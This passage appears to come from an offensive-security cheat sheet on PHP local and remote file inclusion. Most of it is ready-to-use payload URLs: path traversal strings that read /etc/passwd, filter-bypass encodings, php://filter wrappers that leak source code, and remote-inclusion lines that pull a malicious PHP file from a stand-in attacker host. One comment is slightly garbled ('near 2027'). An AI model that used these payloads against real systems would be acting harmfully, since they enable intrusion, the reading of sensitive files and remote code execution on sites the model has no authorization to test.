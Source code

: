 ```text
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

Always try to **start** the path **with a fake directory** \(a/\).

**This vulnerability was corrected in PHP 5.3.**

### **Filter bypass tricks**

```text
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
```

## Basic RFI

```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

## LFI / RFI using PHP wrappers

### Wrapper php://filter

#### Base64 and rot13

The part "php://filter" is case insensitive

```text
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

#### zlib \(compression\)

Can be chained with a **compression** wrapper for large files.

```text
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```
